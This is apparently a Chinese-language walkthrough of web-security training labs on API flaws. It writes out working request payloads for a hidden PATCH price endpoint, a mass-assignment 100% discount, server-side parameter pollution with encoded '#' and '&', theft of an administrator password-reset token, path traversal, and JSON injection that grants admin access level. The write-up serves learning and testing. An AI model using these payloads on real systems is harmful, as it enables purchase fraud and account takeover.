

## 1、查找并利用未使用的API

您需要利用隐藏的 API 端点购买一件**Lightweight l33t Leather Jacket**

访问这件衣服的页面，抓到查询价格的包：


随便修改一下请求方式：


将请求方式改为PATCH


加上Content-Type


不知道缺什么参数，所以加上一个空json


然后再抓一个包，用这个包覆盖那个包

这样价格变成了0，可以购买

## 2、利用大规模分配漏洞

在购买的时候，前后抓到两个包：

```
POST /api/checkout
GET /api/checkout
```

POST /api/checkout 会发送购买商品的相关信息：

```
{"chosen_products":[{"product_id":"1","quantity":1}]}
```

GET /api/checkout 会返回这次交易的相关信息：

```

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```

在POST请求体中加上

```
"chosen_discount":{"percentage":100},
```

价格变成0，购买成功

## 3、服务器端参数污染

某些系统包含无法通过互联网直接访问的内部 API。当网站将用户输入嵌入到未经过充分编码的内部 API 的服务器端请求中时，就会发生服务器端参数污染。这意味着攻击者可能能够操纵或注入参数

### 测试查询字符串中的服务器端参数污染

要测试查询字符串中的服务器端参数污染，请将查询语法字符（如 `#` 、 `&` 、和 `=` 在您的输入中，并观察应用程序如何响应。

这里给的一个例子：

假设有一个存在漏洞的应用程序，它允许你根据用户名搜索其他用户。当你搜索某个用户时，你的浏览器会发出以下请求：

```
GET /userSearch?name=peter&back=/home
```

为了检索用户信息，服务器使用以下请求查询内部 API：

```
GET /users/search?name=peter&publicProfile=true
```

您可以使用 URL 编码的 `#` 字符尝试截断服务器端请求。为了帮助您解释响应，您还可以在 `#` 字符后添加一个字符串。

例如，您可以将查询字符串修改为以下内容：

```
GET /userSearch?name=peter%23foo&back=/home
```

前端会尝试访问以下 URL：

```
GET /users/search?name=peter#foo&publicProfile=true
```

**必须对 `#` 字符进行 URL 编码。否则，前端应用程序会将其解释为片段标识符，从而无法将其传递给内部 API。**

检查响应，寻找查询是否被截断的线索。例如，如果响应返回用户 `peter` ，则服务器端查询可能已被截断。如果返回 `Invalid name` 错误消息，则应用程序可能已处理 `foo` 作为用户名的一部分。这表明服务器端请求可能未被截断。如果您能够截断服务器端请求，则无需将 `publicProfile` 字段设置为 true。您可以利用这一点返回非公开的用户个人资料。

### 注入无效参数

您可以使用 URL 编码的 `&` 字符尝试向服务器端请求添加第二个参数。

例如，您可以将查询字符串修改为以下内容：

```
GET /userSearch?name=peter%26foo=xyz&back=/home
```

这会导致服务器端向内部 API 发出以下请求：

```
GET /users/search?name=peter&foo=xyz&publicProfile=true
```

查看响应，了解附加参数的解析方式。例如，如果响应未发生改变，则可能表明该参数已成功注入，但被应用程序忽略。为了建立更完整的图像，您需要进一步测试。

### 覆盖现有参数

要确认应用程序是否容易受到服务器端参数污染的影响，您可以尝试覆盖原始参数。具体方法是注入第二个同名参数。

例如，您可以将查询字符串修改为以下内容：

```
GET /userSearch?name=peter%26name=carlos&back=/home
```

这会导致服务器端向内部 API 发出以下请求：

```
GET /users/search?name=peter&name=carlos&publicProfile=true
```

内部 API 会解析两个 `name` 参数。其影响取决于应用程序如何处理第二个参数。不同的 Web 技术会有所不同。例如：

PHP 仅解析最后一个参数。这将导致用户搜索 `carlos` 。

ASP.NET 会将这两个参数组合起来。这将导致用户搜索 `peter,carlos` ，从而可能引发 `Invalid username` 错误消息。

Node.js / express 仅解析第一个参数。这会导致用户搜索 `peter` ，结果保持不变。

如果你能够覆盖原始参数，你或许能够利用它。例如，你可以添加 `name=administrator` 到请求中。这可能使您能够以管理员用户身份登录。

### 靶场练习

重置密码抓到的包：


添加一个参数



说明内部API将x解释为另一个参数而不是username的一部分

继续尝试，添加#


提示“field not specified”，这说明可能有一个参数是field，但被#截断了


导致 `Invalid field` 错误消息。这表明服务器端应用程序可能识别了注入的字段参数。


爆破出两个：username    email


但是都看不出什么有用的信息，但是可以看出，field如果是email，就返回administrator的email，field如果是username，就返回administrator的username

`/static/js/forgotPassword.js `中：有用的部分：

```js

forgotPwdReady(() => {
    const queryString = window.location.search;
    const urlParams = new URLSearchParams(queryString);
    const resetToken = urlParams.get('reset-token');
    if (resetToken)
    {
        window.location.href = `/forgot-password?reset_token=${resetToken}`;
    }
    else
    {
        const forgotPasswordBtn = document.getElementById("forgot-password-btn");
        forgotPasswordBtn.addEventListener("click", displayMsg);
    }
});
```

意思是说如果用户是通过密码重置邮件中的链接进来的。代码会**重定向**到标准的“忘记密码”处理页面

也就是说如果想进入到重置密码页面，必须知道reset-token

因此将field置为reset_token


然后就可以去构造请求url，去重置密码

/forgot-password?reset_token=szsna88021tn2rq0nuexdbq91o6n132m

## 4、测试 REST 路径中的服务器端参数污染

RESTful API 可以将参数名称和值放在 URL 路径中，而不是查询字符串中。例如，考虑以下路径：

```
/api/users/123
```

URL 路径可能分解如下：

`/api` 是根 API 端点。

`/users` 代表一种资源，在本例中 `users` 。

`/123` 代表一个参数，这里是特定用户的标识符。

假设有一个应用程序，允许您根据用户名编辑用户个人资料。请求将发送到以下端点：

```
GET /edit_profile.php?name=peter
```

这会导致以下服务器端请求：

```
GET /api/private/users/peter
```

攻击者可能能够操纵服务器端 URL 路径参数来利用此 API。**要测试此漏洞，请添加路径遍历序列来修改参数，并观察应用程序的响应情况。**

您可以提交 URL 编码的 `peter/../admin` 作为 `name` 参数的值：

```
GET /edit_profile.php?name=peter%2f..%2fadmin
```

如果服务器端客户端或后端 API 规范化此路径，则可能会将其解析为 `/api/private/users/admin` 。

## 5、测试结构化数据格式中的服务器端参数污染

假设有一个应用程序允许用户编辑个人资料，然后通过向服务器端 API 发出请求来应用更改。当您编辑姓名时，浏览器会发出以下请求：

```
POST /myaccount name=peter
```

这会导致以下服务器端请求：

```
PATCH /users/7312/update {"name":"peter"}
```

您可以尝试将 `access_level` 参数添加到请求中，如下所示：

```
POST /myaccount name=peter","access_level":"administrator
```

如果用户输入在没有经过充分验证或清理的情况下被添加到服务器端 JSON 数据中，则会导致以下服务器端请求：

```
PATCH /users/7312/update {name="peter","access_level":"administrator"}
```

这可能会导致用户 `peter` 被授予管理员访问权限。

**或者是**

```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```

如果**对用户输入进行解码**，然后在**没有进行适当编码**的情况下将其添加到服务器端 JSON 数据中，则会导致以下服务器端请求：

```
PATCH /users/7312/update {"name":"peter","access_level":"administrator"}
```